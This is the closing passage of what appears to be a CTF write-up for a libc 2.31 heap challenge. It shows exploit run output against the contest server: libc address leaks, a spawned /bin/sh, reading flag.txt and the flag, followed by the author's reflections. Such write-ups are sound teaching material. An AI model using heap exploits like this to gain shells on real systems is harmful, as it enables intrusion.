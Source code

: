 After a couple of tries:
```
[+] Opening connection to pwn.chall.pwnoh.io on port 13381: Done
Leaked unsorted bin 140100212210656
Leaked libc base 140100212210656
Restarting due to UTF-8 decode failure
[*] Closed connection to pwn.chall.pwnoh.io port 13381
[+] Opening connection to pwn.chall.pwnoh.io on port 13381: Done
Leaked unsorted bin 140464348724192
Leaked libc base 140464348724192
Restarting due to UTF-8 decode failure
[*] Closed connection to pwn.chall.pwnoh.io port 13381
[+] Opening connection to pwn.chall.pwnoh.io on port 13381: Done
Leaked unsorted bin 139973726051296
Leaked libc base 139973726051296
1, and then /bin/sh
[*] Switching to interactive mode
$ 1
Please enter your account number: $ /bin/sh
$ ls
flag.txt
panic
$ cat flag.txt
buckeye{p4n1c_15_n0t_ab0rt}
```
## Conclusion

For my first hard heap challenge, and my first actual writeup, I think this was a lot more painful than I expected going in. I didn't have the willpower
to stomach finishing this during the contest, but after having done it - it wasn't too bad? Anyways, for all of the curveballs, this was a pretty standard libc 2.31 
heap pwn. I'm kinda scared for what'll have to be done once challenges move to 2.34 and beyond...
